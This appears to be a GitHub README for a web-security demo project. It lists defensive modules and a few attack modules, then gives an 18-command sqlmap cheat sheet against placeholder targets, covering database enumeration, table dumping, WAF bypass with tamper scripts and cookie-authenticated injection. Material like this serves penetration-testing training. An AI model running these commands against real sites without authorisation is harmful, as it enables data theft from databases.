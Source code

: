 The Importance of Secure Web Applications in Cybersecurity

In a digital era dominated by increasingly sophisticated cyberattacks, the security of web applications has become a crucial component of data protection and online infrastructure security. Web applications are often targeted by cyber threats such as SQL Injection, Cross-Site Scripting (XSS), brute force attacks, and the exploitation of unpatched vulnerabilities.

A Secure Web Application provides a protected environment through robust authentication, advanced encryption, access control, and threat detection. This project was created to demonstrate and implement best practices in web security, using a set of 10 essential modules, each playing a critical role in safeguarding online applications.

1. Secure Login System
2. Web Application Firewall (WAF) Simulation
3. Vulnerability Reporting Platform
4. Data Encryption/Decryption Tool
5. User Role-Based Access Control System
6. Secure File Storage System
7. Cyber Attack Simulation and Logging
8. Secure Comment System
9. Password Manager
10. Secure Messaging System
11. WPScan
12. Xmlrcp-attack
13. Clickjack


![Sqlmap](sqlmap.png)

Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

Basic command:

1. sqlmap -u "http://target.com/vulnerable.php?id=1" ( basic command to start testing if a website is vulnerable to SQL Injection.)

2. sqlmap -u "http://localhost/verifyLogin.php" --data="username=admin&password=12345"  ( Specifying request methods )

3. sqlmap -u "http://target.com/page.php?id=1" ( Automatically detecting and testing parameters )

4. sqlmap -u "http://target.com/page.php?id=1" --dbs ( To list available databases on the target server )

5. sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables ( After obtaining the database, you can list its tables )

6. sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns ( To list the columns of a table within a database )

7. sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump ( extract data from a table )

8. sqlmap -u "http://target.com/page.php?id=1" --random-agent ( If the target site has a WAF or other protections, a custom user-agent can help )

9. sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment ( To bypass WAF protections, you can use the --tamper option )

10. sqlmap -u "http://target.com/page.php?id=1" --level=5 --risk=3 (You can increase the testing intensity by using the --level and --risk options)

    --level: sets the level of testing (higher means more types of attacks).
    --risk: sets the risk of testing (higher means more aggressive testing).

11. sqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=12345abcde" ( To inject an authenticated session, you can add a cookie to your request )

12. sqlmap -u "http://target.com/page.php?id=1" -D database_name --dump --output-dir=/path/to/save/results ( To save the results to an output file )

13. sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080" ( To intercept requests and analyze them, you can use a proxy (e.g., Burp Suite )

14. sqlmap -u "http://target.com/page.php?id=1" --verbose=3 ( To get detailed information about each step SQLMap takes )

15. sqlmap -u "http://target.com/page.php?id=1" --technique=T ( To test if the site is vulnerable to time-based SQL Injection )

16. sqlmap -u "http://target.com/page.php?id=1" --technique=BEUSTQ ( Specifying SQL Injection type )

17. sqlmap -u "http://target.com/page.php?id=1" --auth-type=basic --auth-cred="username:password" ( To test an application that requires authentication (basic HTTP authentication)
                                                                                                   
18. sqlmap -u "http://target.com/page.php?id=1" --threads=10 ( To speed up tests on large websites, you can use multiple threads )                                                                                             
